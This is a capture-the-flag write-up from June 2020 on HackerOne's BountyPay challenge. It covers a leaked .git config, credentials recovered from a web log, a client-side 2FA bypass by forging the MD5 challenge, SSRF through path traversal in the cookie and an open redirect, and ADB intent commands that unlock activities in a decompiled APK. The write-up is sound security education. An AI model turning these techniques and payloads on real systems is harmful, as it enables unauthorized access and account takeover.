







# h1-2006-ctf Writeup
## June 2020
https://hackerone.com/h1-ctf/


# The Competition Begins!
The tweet announces the CTF challenge. Looks like we will need to find a way to process some payments.


# Initial Exploring
Reading up on the extended description at https://hackerone.com/h1-ctf/ reveals that the target of this competition are the domains within `*.bountypay.h1ctf.com`. 

Scanning for available subdomains revealed:
- bountypay.h1ctf.com
- app.bountypay.h1ctf.com
- www.bountypay.h1ctf.com
- staff.bountypay.h1ctf.com
- api.bountypay.h1ctf.com
- software.bountypay.h1ctf.com

The description also mentioned that we should keep a look out on the HackerOne twitter for clues. I took another closer look through their feed.


Right away, this particular retween stood out:


Viewing their profile shows:


I wonder who they are following?



Sandra has a very interesting tweet!


Zoom, enhance! Her staff ID is clearly visible in this tweet. `STF:8FJ3KFISL3`. Thanks, Sandra, this should come in handy later. 

Scanning the barcode didn't really seem to reveal anything. Best to move on for now and to look at the sites.

# Beginning the Journey
First things first, https://bountypay.h1ctf.com/.


The main site is pretty uneventful, just a splash screen with two external login pages, and some tumbleweeds.

The customer login is hosted on https://app.bountypay.h1ctf.com/, and the staff login is on https://staff.bountypay.h1ctf.com/.

The login pages were sanitized against SQL injection, and there was no way to create a new account. 

Well, maybe we need to explore some more.


# Fuzz Faster U Fool
Time to do some directory bruteforcing to see if anything is available other than the login pages. Using the perfectly named `ffuf - Fuzz Faster U Fool`, I scanned for directories on the `app` domain.

```yaml
css                     [Status: 301, Size: 194, Words: 7, Lines: 8]
images                  [Status: 301, Size: 194, Words: 7, Lines: 8]
js                      [Status: 301, Size: 194, Words: 7, Lines: 8] 
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1] 
.                       [Status: 301, Size: 194, Words: 7, Lines: 8]                  
.git                    [Status: 403, Size: 170, Words: 5, Lines: 7] 
cgit                    [Status: 403, Size: 170, Words: 5, Lines: 7]
```

That `.git` is very interesting. Trying to `GET` it returned a 403, but what about it's contents? 

I tried going to `/.git/config` in my browser, and it started downloading.


# Finding a Way In

Let's see what we are dealing with:
```yaml
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = https://github.com/bounty-pay-code/request-logger.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "master"]
	remote = origin
	merge = refs/heads/master
```

The GitHub account has one repository with one file in it, `logger.php`.

```php
<?php

$data = array(
  'IP'        =>  $_SERVER["REMOTE_ADDR"],
  'URI'       =>  $_SERVER["REQUEST_URI"],
  'METHOD'    =>  $_SERVER["REQUEST_METHOD"],
  'PARAMS'    =>  array(
      'GET'   =>  $_GET,
      'POST'  =>  $_POST
  )
);

file_put_contents('bp_web_trace.log', date("U").':'.base64_encode(json_encode($data))."\n",FILE_APPEND   );
```

Looks like they are logging their site activity to `bp_web_trace.log`. Let's see if we can grab that file off of `app`.

```
1588931909:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJHRVQiLCJQQVJBTVMiOnsiR0VUIjpbXSwiUE9TVCI6W119fQ==
1588931919:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIn19fQ==
1588931928:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIiwiY2hhbGxlbmdlX2Fuc3dlciI6ImJEODNKazI3ZFEifX19
1588931945:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC9zdGF0ZW1lbnRzIiwiTUVUSE9EIjoiR0VUIiwiUEFSQU1TIjp7IkdFVCI6eyJtb250aCI6IjA0IiwieWVhciI6IjIwMjAifSwiUE9TVCI6W119fQ==
```

Decoding the base64 entries shows:
```json
{"IP":"192.168.1.1","URI":"\/","METHOD":"GET","PARAMS":{"GET":[],"POST":[]}}
{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX"}}}
{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX","challenge_answer":"bD83Jk27dQ"}}}
{"IP":"192.168.1.1","URI":"\/statements","METHOD":"GET","PARAMS":{"GET":{"month":"04","year":"2020"},"POST":[]}}
```

Great, we've got our username and password. Let's login to `app`.

# Trying the Door



Should be smooth sailing. Only it looks like they have one more security step.



Trying the code from the log didn't work, these codes are generated new every time.

Here, I used one of my favourite Burp Suite features, `Prominently highlight hidden fields`.



That is prominent enough for me. Looks like the frontend sends the backend both the challenge and the challenge answer. I can just set both to whatever I want. 

The challenge looks like an MD5 hash. I made up my own challenge answer, generated the hash of it, and then sent both. 


Login successful.

# Looking For Greener Grass


Well. Turns out our friend Brian Oliver kind of sucks. Loading all the statements from all the months and years that the UI provides (and the additional months and years that the backend supports but the UI doesn't show) turns up nothing. 

Looking around a bit, I was curious if I could gather any information from the cookie. The cookie was set to:
`eyJhY2NvdW50X2lkIjoiRjhnSGlxU2RwSyIsImhhc2giOiJkZTIzNWJmZmQyM2RmNjk5NWFkNGUwOTMwYmFhYzFhMiJ9`. 

Decoding the base64 string returns: `{"account_id":"F8gHiqSdpK","hash":"de235bffd23df6995ad4e0930baac1a2"}`.

I also noticed that every time I clicked to `Load Transactions`, it would fire off a request like:
`https://api.bountypay.h1ctf.com/api/accounts/F8gHiqSdpK/statements?month=01&year=2020`. 

It is interesting that the account id of my cookie also appears in this URL. From experimenting, editing the cookie to change the account id also changes the API request. We could potentially use an account id here that triggers a different endpoint.

## Investigating Possibilities of the API Domain
To exploit the api, we need to understand api. Going to `api.bountypay.h1ctf.com` shows:



The link is a cheeky redirect to google search what a rest api is. https://api.bountypay.h1ctf.com/redirect?url=https://www.google.com/search?q=REST+API. Cheeky as it may be, this is an open redirect that we could make use of to perform a SSRF.

Exploring the endpoints from the browser (like navigating to https://api.bountypay.h1ctf.com/api/accounts/F8gHiqSdpK), just returns `["Missing or invalid Token"]`. Looks like the main page with the redirect is all we have access to for now.

## Finding Our Target
From exploring earlier, the software domain looks like a likely target. It was rudely refusing access altogether due to our IP. 



## Performing the Attack
It is time to do some SSRF.

I set the cookie to the base64 encoded version of `{"account_id":"../../../redirect?url=https://software.bountypay.h1ctf.com/&disregard=","hash":"de235bffd23df6995ad4e0930baac1a2"}`

The `../` characters navigate us to the base api endpoint in order to use the `/redirect` path. 

I had to use the `&disregard=` at the end in order to make the browser **not** interpret the rest of the imposed url (`/statements?month=01&year=2020"`) to mean "use the `/statements` endpoint".

With this request we are able to connect to the `software` domain and see...another login page. Better than the IP block error from before though, I'll take it.

## TODO: ADD IMAGE

# These Are the Droids You Are Looking For
Using our good buddy `ffuf` again, I scanned to see what directories are available on the `software` domain without being logged in.

```json
{
    "account_id": "../../../redirect?url=https://software.bountypay.h1ctf.com/FUZZ&disregard=",
    "hash": "de235bffd23df6995ad4e0930baac1a2"
}
```

It turned up a folder, `uploads`. This page was a directory listing containing a file `BountyPay.apk`. Navigating my browser to https://software.bountypay.h1ctf.com/uploads/BountyPay.apk downloaded the application.

# Dreaming of Electric Sheep
Loading the application just displays a blank page. Well, okay. Perhaps if we decompile the source code we can find something interesting.


The code is split into:

- PartOneActivity.java
- PartTwoActivity.java
- PartThreeActivity.java

## PartOneActivity
The blank screen we saw earlier was the first activity in the list. Looking at the source code, I found the trigger for starting the second activity:

```java
String firstParam = getIntent().getData().getQueryParameter("start");
if (firstParam != null && firstParam.equals("PartTwoActivity") && settings.contains(str)) {
    String str2 = "";
    String user = settings.getString(str, str2);
    Editor editor = settings.edit();
    String twitterhandle = settings.getString("TWITTERHANDLE", str2);
    editor.putString("PARTONE", "COMPLETE").apply();
    logFlagFound(user, twitterhandle);
    startActivity(new Intent(this, PartTwoActivity.class));
}
```

Intents are messages instructing that you want an action to be beformed. This includes launching activities (screens of the app).

From the code it looks like we can slide into part 2 if we just launch part one with the proper parameters. We can launch custom intents with the debugger program, ADB:

```bash
generic_x86_arm:/ $ am start -n "bounty.pay/bounty.pay.PartOneActivity" -a android.intent.action.VIEW -d one://part?start=PartTwoActivity
Starting: Intent { act=android.intent.action.VIEW dat=one://part?start=PartTwoActivity cmp=bounty.pay/.PartOneActivity }
```

This immediately triggers part 2, which welcomes us with...another blank screen.

## PartTwoActivtiy
The first thing to stand out in the code was this snippet:

```java
Uri data = getIntent().getData();
String firstParam = data.getQueryParameter("two");
String secondParam = data.getQueryParameter("switch");
if (firstParam != null && firstParam.equals("light") && secondParam != null && secondParam.equals("on")) {
    editText.setVisibility(0);
    button.setVisibility(0);
    textview.setVisibility(0);
}
```

There are several components that become visible with the right intent parameters.

Launching with ADB:
```bash
generic_x86_arm:/ $ am start -n "bounty.pay/bounty.pay.PartTwoActivity" -a android.intent.action.VIEW -d two://part?two=light\&switch=on
```

The lights are on now!


Inputting the string into the `Header value` box didn't do anything. 

The string looks like an MD5 hash. Decrypting it uncovers an original value of `Token`. Still, inputting `Token` would not move to the next section. Hmm, time to inspect more of the code.

The button click listener was performing this logic:

```java
String value = (String) dataSnapshot.getValue();
SharedPreferences settings = PartTwoActivity.this.getSharedPreferences(PartTwoActivity.KEY_USERNAME, 0);
Editor editor = settings.edit();
String str = post;
StringBuilder sb = new StringBuilder();
sb.append("X-");
sb.append(value);
if (str.equals(sb.toString())) {
    String str2 = "";
    PartTwoActivity.this.logFlagFound(settings.getString("USERNAME", str2), settings.getString("TWITTERHANDLE", str2));
    editor.putString("PARTTWO", "COMPLETE").apply();
    PartTwoActivity.this.correctHeader();
    return;
}
Toast.makeText(PartTwoActivity.this, "Try again! :D", 0).show();
```

Well, looks like we need to have a `X-` prefix to the value that goes in. Inputting `X-Token` gets us through to part 3.

## PartThreeActivity
Blank screens don't phase me anymore, let's dive into the code.

```java
Uri data = getIntent().getData();
String firstParam = data.getQueryParameter("three");
String secondParam = data.getQueryParameter("switch");
String thirdParam = data.getQueryParameter("header");
byte[] decodeFirstParam = Base64.decode(firstParam, 0);
byte[] decodeSecondParam = Base64.decode(secondParam, 0);
final String decodedFirstParam = new String(decodeFirstParam, StandardCharsets.UTF_8);
final String decodedSecondParam = new String(decodeSecondParam, StandardCharsets.UTF_8);
```

Ok, 3 parameters. We need to send in the first two base64 encoded this time.

```java
String value = (String) dataSnapshot.getValue();
if (str != null && decodedFirstParam.equals("PartThreeActivity") && str2 != null && decodedSecondParam.equals("on")) {
    String str = secondParam2;
    if (str != null) {
        StringBuilder sb = new StringBuilder();
        sb.append("X-");
        sb.append(value);
        if (str.equals(sb.toString())) {
            editText2.setVisibility(0);
            button2.setVisibility(0);
            PartThreeActivity.this.thread.start();
        }
    }
}
```

And sending in the correct parameters will once again make some items visible. It also starts a thread, but we can come back to that.

Remembering to base64 the first two parameter values (`PartThreeActivity`, `on`), we can turn on the lights for the second time today:

```bash
am start -n "bounty.pay/bounty.pay.PartThreeActivity" -a android.intent.action.VIEW -d three://part?three=UGFydFRocmVlQWN0aXZpdHk\=\&switch=b24\=\&header=X-Token
```

## TODO: Add image of input box

One more input box that we need to fill with the correct value. Let's take a closer look now at what that thread was that we started:

```java
this.thread = new Thread(new Runnable() {
public void run() {
    PartThreeActivity.this.performPostCall(PartThreeActivity.this.getSharedPreferences(PartThreeActivity.KEY_USERNAME, 0).getString("TOKEN", ""));
}
});
```

It performs a POST call when we use the right arguments. Let's see if we can intercept this to find the answer to this section.

Using BurpSuite, I managed to find a particular message sent from the app that caught my attention!

```json
{
    "t": "d",
    "d": {
        "b": {
            "p": "X-Token",
            "d": "8e9998ee3137ca9ade8f372739f062c1"
        },
        "a": "d"
    }
}
```

The X-Token makes an appearance! Submitting it gets us clear to the end of the stage.


We should be able to use this X-Token to authenticate with the BountyPay API.